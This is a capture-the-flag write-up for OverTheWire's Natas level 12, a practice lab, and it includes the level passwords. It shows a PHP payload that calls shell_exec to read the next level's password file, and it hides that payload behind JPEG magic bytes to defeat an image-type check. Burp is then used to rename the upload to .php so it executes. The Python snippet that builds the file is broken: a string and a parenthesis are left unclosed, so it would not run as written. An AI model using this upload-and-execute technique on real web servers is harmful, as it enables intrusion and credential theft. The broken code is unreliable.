 # OverTheWire Wargames

## Natas Level 12 --> Level 13

**Username:** natas13

**Password:** jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY  

**URL:**      http://natas13.natas.labs.overthewire.org

### Solution
* Open inspect, there are button to upload an image (1kb) and button send us to a page contain the source code.
* If you read the source code it is like the last one, generate random path with extention taken from requests to uploaded file, then put it in upload folder.
* Write php script echo the password from pass folder
```php
<?php
  echo shell_exec("cat /etc/natas_webpass/natas14");
?>
```
* Now if you upload it, he will say only images are allowed, from source code you know that they check file type using exif_imagetype() php function which reads the magic number for the file.
* So first write JPEG magic number then your php script (to make magic number interprete as bytes we use pyhon3)
```py
  file = open('image', 'wb')
  file.write(b'\xFF\xD8\xFF\xE0' + b'<? echo shell_exec("cat /etc/natas_webpass/natas14"); 
  file.close()
```
* Upload the script then intercept requests with burpSuite to change filename extension to php to execute script onclick
* You got the password!!

### Natas14 Password
> Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
